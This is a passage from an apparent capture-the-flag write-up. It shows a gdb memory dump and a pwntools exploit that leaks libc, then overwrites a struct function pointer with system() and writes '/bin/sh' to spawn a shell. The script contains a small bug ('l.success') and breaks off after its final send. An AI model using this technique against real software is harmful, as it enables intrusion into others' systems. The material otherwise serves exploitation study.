 Then, after the address of `system()` is leaked, this is what the `Merchant` struct looks like after the second `memcpy()`:
{%highlight bash%}
gdb-peda$ x/41xw 0xffffd3cc
0xffffd3cc:     0x6e69622f      0x0068732f      0x41414141      0x41414141
0xffffd3dc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd3ec:     0x6e69622f      0x2068732f      0x61207369      0x42424220
0xffffd3fc:     0x42424242      0x42424242      0x42424242      0x42424242
0xffffd40c:     0x42424242      0x42424242      0x42424242      0x42424242
0xffffd41c:     0x42424242      0x42424242      0x42424242      0x42424242
0xffffd42c:     0x42424242      0x42424242      0x42424242      0x42424242
0xffffd43c:     0x42424242      0x42424242      0x42424242      0x42424242
0xffffd44c:     0x42424242      0x42424242      0x42424242      0x42424242
0xffffd45c:     0x42424242      0x42424242      0x42424242      0x42424242
0xffffd46c:     0x5639e190
{%endhighlight%}

Observe that we have written `"/bin/sh\0"` to `merchant.name` and that we have written the leaked address of `system()` to `merchant.sfunc`.

Putting everything together, the following exploit will grant us a shell.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def exploit(r):
  #r.recvuntil("Choice: ") ## for debugging
  #r.sendline("3")         ## for debugging
  
  ## Overwrite merchant.sfunc w/ print_name() ##
  r.recvuntil("Choice: ")
  r.sendline("1")
  r.recvuntil(": ")
  r.send("A"*32) # we can use send() bcus read() doesn't null-terminate. therefore, no need to send a '\n'
  r.recvuntil(": ")
  r.send("A"*90+"\xe2\x5b") # brute force a nibble # print_name() = 0xXXXXXbe2
  
  ## Leak addresses ##
  r.recvuntil("Choice: ")
  r.sendline("3") # calls merchant.sfunc(&merchant);
  r.recv(170)
  leakedelfptr = u32(r.recv(4))  # leaked &print_name()
  leakedlibcptr = u32(r.recv(4)) # leaked libc ptr
  libcbase = leakedlibcptr-0x1dddd0
  l.success("nibble found!")
  log.success("libcbase @ "+str(hex(libcbase)))
  system = libcbase+0x40190
  log.success("system @ "+str(hex(system))) 
  
  ## Write "/bin/sh" to merchant.name ##
  r.recvuntil("Choice: ")
  r.sendline("1")
  r.recvuntil(": ")
  r.send("/bin/sh\0")
  ## Write system() to merchant.sfunc ##
  r.recvuntil(": ")
  r.send("B"*115+p32(system)) 